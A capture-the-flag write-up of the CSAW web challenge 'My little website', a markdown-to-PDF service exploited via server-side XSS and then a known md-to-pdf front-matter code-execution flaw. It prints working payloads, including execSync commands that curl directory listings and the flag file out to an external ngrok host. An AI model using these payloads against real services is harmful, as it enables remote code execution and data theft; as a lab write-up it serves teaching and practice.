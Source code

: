 ```yaml
---
Category: WEB | 148 pts - 204 Solves
description: WEB | 54 pts - 406 solves
---
```


# My little website

> Description: I am new to programming and made this simple pdf creater website here, hopefully it is secure enough :)... [http://web.chal.csaw.io:5013](http://web.chal.csaw.io:5013)

The challenge comes as a pdf rendering website, we can inject markdown or maybe...javascript.\
First thing, check for XSS:

```javascript
<script> document.write(window.location) </script>
```

<figure><img src="../../.gitbook/assets/1.png" alt=""><figcaption></figcaption></figure>

Ok, vulnerable, actually, it's Server-Side XSS, as we're not injecting code in the webpage (client-side), instead we executing code on the server-side of the application.\
Let's try something more interesting:

```javascript
<script>document.write('<iframe src="/"></iframe>')</script>
```

<figure><img src="../../.gitbook/assets/2.png" alt=""><figcaption></figcaption></figure>

We're inside /chal directory, node.js webapp, but index.js seems definitely something interesting for us, let's try to read it:

```javascript
<script>
fetch('index.js')
  .then(response => response.text())
  .then(text => document.write(text))
</script>
```

<figure><img src="../../.gitbook/assets/3.png" alt=""><figcaption></figcaption></figure>

That's a lot of info, but what's most important is the `mdToPdf` package, with a quick search we'll know that we can do RCE: [https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880).

```javascript
---js
require('child_process').execSync('ls -la > /tmp/tmp.txt && curl -d @/tmp/tmp.txt http://06f6-151-62-28-161.eu.ngrok.io')
---
```

<figure><img src="../../.gitbook/assets/4.png" alt=""><figcaption></figcaption></figure>

No flag here, let's try to look one directory above:

```javascript
---js
require('child_process').execSync('ls -la .. > /tmp/tmp.txt && curl -d @/tmp/tmp.txt http://06f6-151-62-28-161.eu.ngrok.io')
---
```

<figure><img src="../../.gitbook/assets/5.png" alt=""><figcaption></figcaption></figure>

Here we go, read flag.txt:

```javascript
---js
require('child_process').execSync('curl -d @../flag.txt http://06f6-151-62-28-161.eu.ngrok.io')
---
```

<figure><img src="../../.gitbook/assets/6.png" alt=""><figcaption></figcaption></figure>

> CTF{pdf\_c0nt1nu3s\_70\_5uCK}
